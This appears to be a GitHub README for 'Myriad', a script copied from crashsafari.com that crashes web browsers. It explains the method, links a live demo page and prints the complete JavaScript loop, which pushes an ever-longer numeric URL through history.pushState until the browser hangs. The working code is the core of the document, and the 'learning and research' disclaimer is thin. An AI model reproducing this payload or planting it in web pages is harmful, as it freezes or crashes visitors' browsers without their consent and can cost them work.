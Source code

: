 # Myriad

Simple JS script that overloads the browser with a huge URL (Where it gets its name)

## Demo

Why GIFs when you can see it working live? Visit [this](https://fuk.netlify.app) link **ON YOUR OWN RISK**. I am not responsible for any harm due to this page...... warned ya!

## The url

You can see an example of the generated URL in [SAMPLE-URL.md](SAMPLE-URL.md), its huge and note the pattern (123456789101112131415....)

## The code

The code is super simple!

The code exploits the [HTML5 pushState](https://developer.mozilla.org/en-US/docs/Web/API/History_API) API used on all modern browsers to update the path of the site you are visiting during JavaScript page navigation.

Instead of just changing the path from `website.com/pageone` to `website.com/pagetwo` it creates a string of numbers long enough to slow the browser until it won't function, hang, or crash.

```javascript
var total = ""; //blank variable
for( var i = 0; i < 10000000; i++ ) { //increases the value of 'i' by 1 till it becomes 10000000
total = total + i.toString(); //adds the value of 'i' to total everytime it increases
history.pushState(0,0, total ); //sends the value of total to the url to load
} //The End XD
```

## Need for Myriad

No one is ever gonna need it (To Say Nothing Of The Naughty Ones)

This script is in the mischievous websites like [crashsafari.com](https://crashsafari.com), [crashchrome.com](http://crashchrome.com), etc.

You better don't do so!

Original code taken from [crashsafari.com](http://crashsafari.com)

## Disclaimer

* This piece of code is open and I am not the creator or owner of this script.
* It is only for learning and research purpose.
* I am not responsible for any destruction or harm caused due to this program/code.
